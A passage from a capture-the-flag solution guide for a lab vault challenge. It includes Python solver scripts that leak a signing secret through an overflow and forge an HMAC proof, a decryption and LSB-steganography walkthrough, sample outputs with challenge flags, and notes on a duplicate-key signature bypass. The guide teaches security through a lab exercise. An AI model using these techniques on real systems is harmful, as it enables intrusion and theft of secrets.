        raise RuntimeError(f"GET /api/state -> {status}: {j}")
    return j


def get_nonce(vaultcore: str) -> tuple[bytes, str, int]:
    status, _hdrs, j = http_json("GET", f"{vaultcore}/api/ops/ghost/challenge", timeout=6.0)
    if status >= 400:
        raise RuntimeError(f"GET /api/ops/ghost/challenge -> {status}: {j}")
    nonce_b64 = j["nonce_b64"]
    ttl = int(j.get("ttl_seconds", 45))
    return base64.b64decode(nonce_b64), nonce_b64, ttl


def redeem(vaultcore: str, proof_b64: str) -> dict:
    status, _hdrs, j = http_json("POST", f"{vaultcore}/api/ops/ghost/redeem", obj={"proof_b64": proof_b64}, timeout=6.0)
    if status == 429:
        raise RuntimeError("429 on redeem (unexpected). Wait ~65s and retry.")
    if status >= 400:
        raise RuntimeError(f"POST /api/ops/ghost/redeem -> {status}: {j}")
    return j


def get_slip(vaultcore: str) -> dict:
    status, _hdrs, j = http_json("GET", f"{vaultcore}/api/ops/maintenance/ghost-slip", timeout=6.0)
    if status >= 400:
        raise RuntimeError(f"GET /api/ops/maintenance/ghost-slip -> {status}: {j}")
    return j


def compute_proof_b64(nonce: bytes, secret: bytes) -> str:
    tag = hmac.new(secret, b"T3|" + nonce, hashlib.sha256).digest()
    return base64.b64encode(nonce + tag).decode("ascii")


def leak_secret(vaultcore: str, *, min_off: int, max_off: int, per_try_delay: float) -> bytes:
    print("[*] Benign STAT…")
    raw = submit_frame(vaultcore, build_frame(b"S", b"A" * 8))
    benign = parse_ok_secret(raw)
    print(f"[*] benign leak_len={len(benign)}")

    print(f"[*] Overflow scan offsets {min_off}..{max_off} (delay {per_try_delay}s)")
    for off in range(min_off, max_off + 1):
        cmd_data = b"A" * off + b"\x00" + b"B" * 24
        raw = submit_frame(vaultcore, build_frame(b"S", cmd_data))
        secret = parse_ok_secret(raw)

        if len(secret) == 32 and not is_probably_fake(secret):
            print(f"[+] REAL secret at offset={off}")
            print(f"[+] secret_hex={secret.hex()}")
            return secret

        time.sleep(per_try_delay)

    raise RuntimeError("Failed to leak non-fake secret in chosen offset range.")


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("--vaultcore", default=DEFAULT_VAULTCORE)
    ap.add_argument("--min-off", type=int, default=55)   # tight default
    ap.add_argument("--max-off", type=int, default=70)   # tight default
    ap.add_argument("--delay", type=float, default=0.35) # polite pacing
    args = ap.parse_args()

    vaultcore = args.vaultcore.rstrip("/")
    print(f"[*] VAULTCORE={vaultcore}")

    st = get_state(vaultcore)
    lvl = st["alert"]["level"]
    score = st["alert"]["score"]
    state = st["alert"]["state"]
    print(f"[*] alert.level={lvl} score={score} state={state}")
    if lvl > 3:
        print("[!] Too hot for Token3 gates. Wait for decay before running solver.")
        return 2

    secret = leak_secret(vaultcore, min_off=args.min_off, max_off=args.max_off, per_try_delay=args.delay)

    # Get nonce right before redeem
    nonce, nonce_b64, ttl = get_nonce(vaultcore)
    print(f"[*] nonce_b64={nonce_b64} ttl={ttl}s")

    proof_b64 = compute_proof_b64(nonce, secret)
    res = redeem(vaultcore, proof_b64)
    print(f"[+] redeem={res}")

    slip = get_slip(vaultcore)
    print("\n=== TOKEN 3 SLIP ===")
    print(json.dumps(slip, indent=2))
    if "auth" in slip:
        print("\n[+] TOKEN 3:", slip["auth"])
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

Sample Output:

```bash
┌──(user㉿aac74c573c03)-[~/working/final]
└─$ python3 t3_solver.py                                                                                   
[*] VAULTCORE=http://vaultcore.pccc:8080
[*] alert.level=0 score=0.0 state=NORMAL
[*] Benign STAT…
[*] benign leak_len=32
[*] Overflow scan offsets 55..70 (delay 0.35s)
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[!] 429 Too Many Requests from /replay/submit. Sleeping 2s…
[+] REAL secret at offset=64
[+] secret_hex=37cdb95d5f7bd357245875081db151c41fe382dbb1e28d600a59fd320e8598c0
[*] nonce_b64=GXBrYfBQC+MkhdoN0Axq/Q== ttl=90s
[+] redeem={'ok': True, 'msg': 'ghost mode engaged'}

=== TOKEN 3 SLIP ===
{
  "terminal": "SOC-TRACE-03",
  "ts": 1770029629,
  "auth": "PCCC{0D-03-6593-NxYA}",
  "note": "ghost proof accepted"
}

[+] TOKEN 3: PCCC{0D-03-6593-NxYA}
```

## Answer

This answer to this question is the value presented in the `auth` field of the slip (token3).

At this juncture, your dashboard should look like this:



## Question 4
***Use Ghost Mode access (Token 3) to export an encrypted “surveillance artifact”, decrypt it with the leaked ghost secret, extract an LSB-hidden floor latch code, redeem it, and print Token 4.***

### Step 0 — Verify Token 3 is unlocked

**Instruction:** Confirm token3 is found.  
**Why:** Token 4 export is gated behind Ghost Mode by default.

**Command:**

```bash
curl -s http://vaultcore.pccc:8080/api/state | jq '.tokens'
```

**Output:** `token3.found: true`

### Step 1 — Export the encrypted surveillance artifact

**Instruction:** Request the export blob.  
**Why:** The vault returns a ciphertext blob (encrypted BMP) and the nonce. You must decrypt it with the ghost secret.

**Command:**

```bash
curl -s http://vaultcore.pccc:8080/api/ops/surveillance/export | jq
```

**Output:** JSON like:

```json
{
  "nonce_b64": "...",
  "cipher_b64": "...",
  "format": "xor-hmac-stream/v1",
  "hint": "Decrypt -> extract LSB -> parse FLOOR|<code>|SHIFT=NIGHT",
  "bytes": 393270
}
```

Save `nonce_b64` and `cipher_b64`.

### Step 2 — Decrypt the export into the stego “carrier” (SHA256 stream XOR)

**What’s actually happening:**
The export returns:

* `nonce_b64`
* `cipher_b64`

You derive a keystream by hashing:

> `SHA256(ghost_secret || nonce || LE32(counter))`

Take the first `cipher_block` bytes from each digest (default **32**) and XOR with ciphertext until you have plaintext bytes. The result is the **carrier** used for the next step (not a BMP).

**Command (decrypt + save carrier):**

```python
import base64, hashlib, struct, json, sys, requests

BASE="http://vaultcore.pccc:8080"
GHOST_HEX="PASTE_GHOST_SECRET_HEX"
CIPHER_BLOCK=32

ghost_secret = bytes.fromhex(GHOST_HEX)

blob = requests.get(f"{BASE}/api/ops/surveillance/export", timeout=10).json()
nonce = base64.b64decode(blob["nonce_b64"])
ct    = base64.b64decode(blob["cipher_b64"])

out = bytearray()
ctr = 0
i = 0
while i < len(ct):
    digest = hashlib.sha256(ghost_secret + nonce + struct.pack("<I", ctr)).digest()
    block = digest[:CIPHER_BLOCK]
    chunk = ct[i:i+len(block)]
    out.extend([a ^ b for a,b in zip(chunk, block[:len(chunk)])])
    i += len(chunk)
    ctr += 1

open("t4_carrier.bin","wb").write(out)
print("[*] export_format:", blob.get("format"))
print("[*] carrier_bytes:", len(out))
print("[*] carrier_head:", out[:16].hex())
```

**Example output (shape):**

```text
[*] export_format: T4-STEG-V2
[*] carrier_bytes: 168
[*] carrier_head: c07d361dd6b118f8c6a84f41d8d9b8ca
```

### Step 3 — Extract the “T4” frame from the carrier via LSB stego (1-bit or 2-bit)

**What’s actually embedded:** a small framed message:

* magic: `T4` (2 bytes)
* length: `len` (1 byte, 8–32)
* payload: `floor_code` ASCII (`len` bytes)
* integrity: CRC32 of the frame header/body (little-endian)

So we:

1. read the carrier bytes’ low bits (`lsb_bits` is usually **1**, sometimes **2**)
2. rebuild bytes MSB-first:

   * if `lsb_bits=1`: 8 carrier bytes → 1 extracted byte
   * if `lsb_bits=2`: 4 carrier bytes → 1 extracted byte (bits packed at shifts 6,4,2,0)
3. parse `T4 | len | code | crc32` and validate CRC32

**Command (extract code; auto-try 1 then 2):**

```python
import struct, zlib

carrier = open("t4_carrier.bin","rb").read()

def extract(lsb_bits: int):
    if lsb_bits == 1:
        per_byte = 8
        shifts = list(range(7,-1,-1))
        mask = 1
    elif lsb_bits == 2:
        per_byte = 4
        shifts = [6,4,2,0]
        mask = 3
    else:
        raise ValueError("lsb_bits must be 1 or 2")

    symbols = [b & mask for b in carrier]

    def read_byte(byte_index: int) -> int:
        start = byte_index * per_byte
        chunk = symbols[start:start+per_byte]
        if len(chunk) != per_byte:
            raise ValueError("carrier too short")
        v = 0
        for sym, sh in zip(chunk, shifts):
            v |= (sym & mask) << sh
        return v

    h0,h1,ln = read_byte(0), read_byte(1), read_byte(2)
    if bytes([h0,h1]) != b"T4":
        raise ValueError("bad magic")
    if not (8 <= ln <= 32):
        raise ValueError("bad length")

    total = 2 + 1 + ln + 4
    frame = bytes(read_byte(i) for i in range(total))

    body = frame[:-4]
    crc_expected = struct.unpack("<I", frame[-4:])[0]
    crc_actual = zlib.crc32(body) & 0xffffffff
    if crc_actual != crc_expected:
        raise ValueError("crc mismatch")

    code = frame[3:3+ln].decode("ascii")
    return code

for bits in (1,2):
    try:
        code = extract(bits)
        print(f"[+] lsb_bits={bits} floor_code={code}")
        break
    except Exception as e:
        print(f"[-] lsb_bits={bits} failed: {e}")
```

**Output:**

```text
[+] lsb_bits=1 floor_code=88ZVQB287HLW
```

### Step 4 — Redeem the floor code

**Instruction:** Submit the floor code to the latch endpoint.  
**Why:** This commits Token 4 found state and triggers slip printing.

**Command:**

```bash
curl -s -X POST http://vaultcore.pccc:8080/api/ops/floor/enter   -H "Content-Type: application/json"   -d '{"code":"PASTE_12_CHAR_CODE"}' | jq
```

**Output:**

```json
{"ok":true,"msg":"floor latch released"}
```

### Step 5 — Retrieve Token 4

**Instruction:** Pull the maintenance slip.  
**Why:** Tokens are received via slips/receipts, not submitted.

**Command:**

```bash
curl -s http://vaultcore.pccc:8080/api/ops/maintenance/floor-slip | jq
```

**Output:** JSON with:
- `"auth": "PCCC{0D-04...}"`

Relevant endpoints:
- `GET /api/ops/surveillance/export`
- `POST /api/ops/floor/enter`
- `GET /api/ops/maintenance/floor-slip`


### Reference Solver Script

The following script takes the `GHOST SECRET HEX` value found in token3 and uses it to create the slip for token 4:

```python
#!/usr/bin/env python3
"""
Token 4 solver - Ocean's 0x0D (False Floor)

Flow:
  - GET  /api/ops/surveillance/export  -> {nonce_b64, cipher_b64, ...}
  - Decrypt cipher using ghost_secret (from Token 3)
  - Extract framed plaintext from LSB stego carrier
  - POST /api/ops/floor/enter {code:<floor_code>}
  - GET  /api/ops/maintenance/floor-slip -> token4 in "auth"

Usage examples:
  python3 solve_token4.py --base http://vaultcore.pccc:8080 --ghost-hex 0123...
  python3 solve_token4.py --base http://vaultcore.pccc:8080 --ghost-b64 SGVsbG8...

Notes:
  - If SOC blocks you (403/423), you need to reduce alert/lockdown before retrying.
  - Script auto-tries lsb_bits = 1 then 2 (server default is usually 1).
"""

from __future__ import annotations

import argparse
import base64
import binascii
import hashlib
import json
import struct
import sys
import zlib
from typing import Optional, Tuple

import requests


def b64d(s: str) -> bytes:
    return base64.b64decode(s.encode("ascii"), validate=True)


def build_keystream(ghost_secret: bytes, nonce: bytes, length: int, cipher_block: int = 32) -> bytes:
    out = bytearray()
    ctr = 0
    while len(out) < length:
        h = hashlib.sha256(ghost_secret + nonce + ctr.to_bytes(4, "little")).digest()
        out.extend(h[:cipher_block])
        ctr += 1
    return bytes(out[:length])


def decrypt_export(ghost_secret: bytes, nonce: bytes, cipher: bytes, cipher_block: int = 32) -> bytes:
    ks = build_keystream(ghost_secret, nonce, len(cipher), cipher_block=cipher_block)
    return bytes(a ^ b for a, b in zip(cipher, ks))


def extract_frame_from_lsb(carrier: bytes, lsb_bits: int) -> Tuple[bytes, str]:
    """
    Carrier contains embedded symbols in its lowest lsb_bits.
    Frame format (from server code):
      b"T4" | len(1 byte) | floor_code (ascii) | crc32(4 bytes LE)
    """
    if lsb_bits not in (1, 2):
        raise ValueError("lsb_bits must be 1 or 2")

    mask = (1 << lsb_bits) - 1
    symbols = [b & mask for b in carrier]

    # Helpers to reconstruct one byte from N symbols
    if lsb_bits == 1:
        shifts = list(range(7, -1, -1))  # 7..0
        per_byte = 8
    else:
        shifts = [6, 4, 2, 0]
        per_byte = 4

    def read_byte(byte_index: int) -> int:
        start = byte_index * per_byte
        chunk = symbols[start : start + per_byte]
        if len(chunk) != per_byte:
            raise ValueError("carrier too short while reading")
        val = 0
        for sym, sh in zip(chunk, shifts):
            val |= (sym & mask) << sh
        return val

    # Read header + length first (3 bytes)
    h0 = read_byte(0)
    h1 = read_byte(1)
    ln = read_byte(2)

    if bytes([h0, h1]) != b"T4":
        raise ValueError("bad frame magic (expected T4)")

    if not (8 <= ln <= 32):
        raise ValueError(f"invalid floor code length: {ln}")

    # Total frame bytes = 2 + 1 + ln + 4
    total = 2 + 1 + ln + 4
    frame = bytes(read_byte(i) for i in range(total))

    # Validate CRC32
    body = frame[:-4]
    crc_expected = struct.unpack("<I", frame[-4:])[0]
    crc_actual = zlib.crc32(body) & 0xFFFFFFFF
    if crc_actual != crc_expected:
        raise ValueError("crc mismatch (wrong lsb_bits or wrong secret)")

    floor_code = frame[3 : 3 + ln].decode("ascii", errors="strict")
    return frame, floor_code


def http_json(method: str, url: str, **kwargs) -> dict:
    r = requests.request(method, url, timeout=10, **kwargs)
    # give nice error context
    if not (200 <= r.status_code < 300):
        try:
            detail = r.json()
        except Exception:
            detail = r.text
        raise RuntimeError(f"{method} {url} -> {r.status_code}: {detail}")
    return r.json()


def main() -> int:
    ap = argparse.ArgumentParser()
    ap.add_argument("--base",default="http://vaultcore.pccc:8080", help="Base URL for vaultcore, e.g. http://vaultcore.pccc:8080")
    g = ap.add_mutually_exclusive_group(required=True)
    g.add_argument("--ghost-hex", help="Ghost secret (bytes) as hex string (no 0x prefix)")
    g.add_argument("--ghost-b64", help="Ghost secret (bytes) as base64 string")
    ap.add_argument("--cipher-block", type=int, default=32, help="Cipher block size (default: 32)")
    ap.add_argument("--lsb-bits", type=int, choices=[1, 2], default=None, help="Force LSB bits (otherwise auto-try 1 then 2)")
    args = ap.parse_args()

    base = args.base.rstrip("/")

    if args.ghost_hex:
        try:
            ghost_secret = binascii.unhexlify(args.ghost_hex.strip())
        except binascii.Error as e:
            print(f"[!] Bad --ghost-hex: {e}", file=sys.stderr)
            return 2
    else:
        try:
            ghost_secret = b64d(args.ghost_b64.strip())
        except Exception as e:
            print(f"[!] Bad --ghost-b64: {e}", file=sys.stderr)
            return 2

    print("[*] Fetching surveillance export blob...")
    blob = http_json("GET", f"{base}/api/ops/surveillance/export")

    nonce = b64d(blob["nonce_b64"])
    cipher = b64d(blob["cipher_b64"])
    cipher_block = int(args.cipher_block)

    print(f"[*] Export bytes: {len(cipher)}  format: {blob.get('format')}  hint: {blob.get('hint')}")
    print("[*] Decrypting export...")
    carrier = decrypt_export(ghost_secret, nonce, cipher, cipher_block=cipher_block)

    # Extract frame/code (auto-try lsb_bits)
    lsb_try = [args.lsb_bits] if args.lsb_bits else [1, 2]
    last_err: Optional[Exception] = None
    frame = None
    floor_code = None

    for lsb_bits in lsb_try:
        try:
            frame, floor_code = extract_frame_from_lsb(carrier, lsb_bits=lsb_bits)
            print(f"[*] Extracted frame via LSB={lsb_bits}, floor_code={floor_code}")
            break
        except Exception as e:
            last_err = e

    if floor_code is None:
        print(f"[!] Failed to extract frame/code. Last error: {last_err}", file=sys.stderr)
        return 3

    print("[*] Submitting floor code...")
    _ = http_json("POST", f"{base}/api/ops/floor/enter", json={"code": floor_code})

    print("[*] Pulling slip for Token 4...")
    slip = http_json("GET", f"{base}/api/ops/maintenance/floor-slip")

    token4 = slip.get("auth")
    if not token4:
        print(f"[!] No 'auth' field in slip response: {json.dumps(slip, indent=2)}", file=sys.stderr)
        return 4

    print("\n✅ TOKEN 4:", token4)
    return 0


if __name__ == "__main__":
    raise SystemExit(main())
```

Sample Output:

```bash
┌──(user㉿aac74c573c03)-[~/working/final]
└─$ python3 t4_solver.py --ghost-hex 37cdb95d5f7bd357245875081db151c41fe382dbb1e28d600a59fd320e8598c0
[*] Fetching surveillance export blob...
[*] Export bytes: 168  format: T4-STEG-V2  hint: LSB->decrypt->frame
[*] Decrypting export...
[*] Extracted frame via LSB=1, floor_code=88ZVQB287HLW
[*] Submitting floor code...
[*] Pulling slip for Token 4...

✅ TOKEN 4: PCCC{0D-04-5853-SVHD}
```

## The End
Once all tokens have been achieved, the following screen is presented to challengers:



## Appendices

### Appendix A - (Token 3) Troubleshooting and “why it failed”

#### 1) “Upload rejected: signature invalid”

Most common causes:

* Your *verifier-visible* plan changed.

  * The **last** `install_plan` must match the original signed semantics.
* You accidentally changed allowlisted fields (`release_id`, `version`, `sha256_payload`, `ts`)
* You modified `payload.bin` (don’t)

Fix: re-download the official bundle and rebuild from that.

#### 2) “Upload accepted, but blueprint slip is locked”

Installer likely did not execute blueprint activation.
Common causes:

* Your duplicate-key JSON did not actually preserve duplicates (you used a serializer that collapsed them)
* The installer did not see the blueprint plan first

Fix: ensure `manifest.json` is raw text and includes duplicate `install_plan` keys in the right order.

#### 3) “Slip/dashboard throws 500”

In a production-hardened build, these should no longer brick the challenge.
If it happens during development:

* check vaultcore logs for DB issues
* ensure SQLite is in WAL mode / has a busy timeout (admin-side hardening)

#### Why this solve is “the intended way”

This is a classic secure-systems lesson:

* “What you verify” must equal “what you execute.”
* Any mismatch (parsers, precedence rules, normalization) creates a bypass even with strong crypto.

Here, the signature is doing its job — it protects the verifier’s view — but the system fails because the installer’s view differs.

**This concludes this solution guide.**

